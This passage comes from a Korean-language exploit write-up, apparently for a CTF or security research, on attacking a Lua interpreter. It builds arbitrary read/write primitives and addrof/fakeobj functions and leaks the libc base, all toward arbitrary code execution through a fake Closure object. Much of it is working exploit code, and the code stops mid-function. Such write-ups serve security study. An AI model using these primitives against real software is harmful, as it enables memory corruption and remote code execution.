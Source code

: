 `semi_aaw`는 `fake_array`를 통해 `owow_array1`의 `array` 필드를 쓰고자 하는 주소로 변경합니다.

이후 `owow_array1[1] = value`로 해당 주소에 특정 값을 쓸 수 있고 `semi_aar`도 같은 방식으로 데이터를 읽을 수 있으나 읽고자 하는 주소 + 0x8이 `TValue.tt`로 해석되기 때문에 해당 부분의 값이 3(`LUA_TNUMBER`)일 필요가 있습니다.

### 6. addrof & fakeobj

기존의 `addrof`는 `tostring` 함수를 활용하기 때문에 문자열이나 숫자와 같은 오브젝트의 주소는 가져올 수 없습니다. 따라서 익스플로잇 코드에서는 아래와 같이 `semi_aar`과 `semi_aaw`를 사용하여 모든 오브젝트 타입에 대해 주소를 가져올 수 있는 `addrof`를 재정의하고 임의 코드 실행을 위해 Fake Closure 오브젝트를 만들 때 사용할 `fakeobj`함수를 정의합니다.

```lua
   semi_aaw(addrof(leaker_array) + 0x28, int_to_double(3)) -- LUA_TNUMBER
   local leaker_array_array_addr = double_to_int(semi_aar(addrof(leaker_array) + 0x20)) 
   
   local function addrof(obj)
      leaker_array[1] = obj
      semi_aaw(leaker_array_array_addr + 8, int_to_double(3))
      return double_to_int(semi_aar(leaker_array_array_addr))
   end

   local function fakeobj(addr, tt)
      semi_aaw(leaker_array_array_addr, int_to_double(addr))
      semi_aaw(leaker_array_array_addr + 8, int_to_double(tt))
      return leaker_array[1]
   end
```

`leaker_array`는 사전에 할당된 `Table`로 `owow_array1`과 마찬가지로 `fake_array_base`보다 높은 주소에 위치합니다. `addrof` 구현을 위해 먼저 `leaker_array`의 `array` 필드가 가리키는 주소값이 필요합니다. `semi_aaw`로 `leaker_array`의 `node` 필드에 3을 쓰면 `semi_aar`로 `leaker_array`의 `array` 필드를 읽을 때 3이 `Value.tt`로 해석되면서 `array` 주소가 반환됩니다.

`addrof`에서는 `leaker_array[1]`에 주소를 가져올 오브젝트를 넣고 `leaker_array`의 `array` + 8의 주소에 3(`LUA_TNUMBER`)을 씁니다. 이후 `semi_aar`로 `leaker_array`의 `array`를 읽으면 오브젝트의 주소가 반환됩니다.

`fakeobj` 함수는 `semi_aaw`로 `leaker_array[1]`에 임의의 주소와 타입을 쓴 다음 이를 반환하는 것으로 Fake 오브젝트를 생성합니다.

### 7. Leak Library base

임의 코드 실행에 사용할 gadget과 함수 주소를 알아내기 위해 아래의 코드를 통해 libc base 주소를 유출하는 것이 가능합니다.

```lua
   local function find_libc_base(leak)
        leak = leak - (leak % 0x1000)
        -- while read_i64_at(leak) ~= 0x03010102464c4580 do
        while read_i32_at(leak) ~= 0x464c457f do
            leak = leak - 0x1000
        end
        return leak
    end
    ...
    local stack_leak = 0
    local libc_leak = 0

    local coro = 'xxx'
    local coro_fn = function()
        local coro_addr = addrof(coro)
        stack_leak = read_i64_at(coro_addr + 0xa8)
        -- libc_leak  = read_i64_at(stack_leak + 0x88)

        local i = 0
        while libc_leak == 0 do
            local cand = read_i64_at(stack_leak + i * 8)
            i = i + 1
            if cand > 0x7f0000000000 and cand < 0x800000000000 then
                libc_leak = cand
                coroutine.yield()
```